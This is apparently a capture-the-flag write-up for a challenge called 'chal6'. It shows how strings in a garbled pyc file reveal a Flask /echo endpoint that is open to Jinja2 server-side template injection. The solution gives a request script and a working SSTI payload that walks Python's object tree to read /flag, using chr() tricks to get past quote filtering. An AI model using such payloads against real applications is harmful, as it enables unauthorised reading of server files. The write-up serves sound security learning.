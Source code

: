 # chal6

## Description

Browsing to the address given in the challenge returns a grabled `pyc` [file](./index.html).

## Analysis

The file is mostly unreadable and of little use in its current form. It should be possible to restore the file to a working state and then decompile it using Python reverse engineering utilities. 

A simpler heuristic approach is also viable. By examining the readable characters one can find the `/echo` endpoint and guess that it accepts an `s` parameter. It is also worth noting that the file includes references to `render_template`, `render_template_string` and `Flask`. This can be used to infer that inputs given to the application will be parsed using the Jinja2 templating engine.

WJinja2 doesn't exactly allow for embedding arbitrary Python expressions but it is possible to [traverse the object tree](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#read-remote-file) to reach useful functions such as `file()`.

## Solution

Using a simple script for executing arbitrary templates helps the process of finding the right input a lot.

```python
#!/usr/bin/env python3
import requests
import sys

r = requests.get(
    "http://45.76.80.234:8082/echo",
    params={"s": "{{%s}}" % sys.argv[1]}
)

print(r.text)
```

For some reason using quoted strings didn't work so a workaround had to be used - the string `/flag` is built from individual bytes.

```
./inject.py "[].__class__.__base__.__subclasses__().pop(40)(config.__class__.__init__.__globals__.__builtins__.chr(47)~config.__class__.__init__.__globals__.__builtins__.chr(102)~config.__class__.__init__.__globals__.__builtins__.chr(108)~config.__class__.__init__.__globals__.__builtins__.chr(97)~config.__class__.__init__.__globals__.__builtins__.chr(103)).read()"
junior-inject_it_like_its_hot
```